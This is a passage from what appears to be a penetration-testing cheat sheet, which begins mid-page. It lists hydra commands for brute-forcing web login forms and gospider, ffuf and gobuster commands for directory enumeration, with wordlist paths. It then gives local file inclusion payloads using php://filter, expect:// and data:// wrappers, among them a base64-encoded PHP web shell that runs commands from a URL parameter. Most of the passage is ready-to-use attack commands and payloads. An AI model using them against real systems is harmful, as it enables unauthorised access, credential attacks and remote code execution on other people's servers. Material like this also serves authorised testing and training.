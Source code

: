   - HTTP GET request
    - `hydra <IP> -V -l <USER> -P <PASSWORDS_LIST> http-get-form "/login/:username=^USER^&password=^PASS^:F=Error:H=Cookie: safe=yes; PHPSESSID=12345myphpsessid" -t <THREADS_NUMBER>`

  - HTTP POST request
    `hydra -l <USER> -P <PASSWORDS_LIST> <IP> http-post-form "/webapp/login.php:username=^USER^&password=^PASS^:Invalid" -t <THREADS_NUMBER>`

- Spidering / Brute force directories / files
  - `gospider -d <DEPTHS> --robots --sitemap -t <THREADS> -s <URL>`

  - `ffuf -w /home/liodeus/directory-list-lowercase-2.3-medium.txt -u <URL>/FUZZ -e .php,.txt -t <THREADS>`
  
  - [dirbuster](https://tools.kali.org/web-applications/dirbuster)
    - `dirbuster`
  
  - [gobuster](https://tools.kali.org/web-applications/gobuster)
    - `gobuster -h`

  - Dictionaries :
    - /usr/share/wordlists/dirb/common.txt
    - /usr/share/wordlists/dirb/big.txt
    - /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

- File backups
  - Once you have found all the files, look for backups of all the executable files (“.php”, “.aspx“…). Common variations for naming a backup are
  - `file.ext~`, `file.ext.bak`, `file.ext.tmp`, `file.ext.old`, `file.bak`, `file.tmp` and `file.old`

- Local File Inclusion / Remote File Inclusion - LFI / RFI
  - <https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion>
  - <https://highon.coffee/blog/lfi-cheat-sheet/>
  - <https://nets.ec/Coldfusion_hacking#Remote_File_Disclosure_of_Password_Hashes>

  - Wrappers
    - Wrapper php://filter
      - <http://example.com/index.php?page=php://filter/convert.base64-encode/resource=>
    - Wrapper expect://
      - <http://example.com/index.php?page=expect://id>
    - Wrapper data://
      - `echo '<?php phpinfo(); ?>' | base64 -w0 -> PD9waHAgcGhwaW5mbygpOyA/Pgo=`

    - <http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pgo=>

    - If code execution, you should see phpinfo(), go to the disable_functions and craft a payload with functions which aren't disable.

    - Code execution with
      - exec
      - shell_exec
      - system
      - passthru
      - popen

    - Example:
      - `echo '<?php passthru($_GET["cmd"]);echo "Shell done !"; ?>' | base64 -w0 -> PD9waHAgcGFzc3RocnUoJF9HRVRbImNtZCJdKTtlY2hvICJTaGVsbCBkb25lICEiOyA/Pgo=`
      - <http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGFzc3RocnUoJF9HRVRbImNtZCJdKTtlY2hvICJTaGVsbCBkb25lICEiOyA/Pgo=>
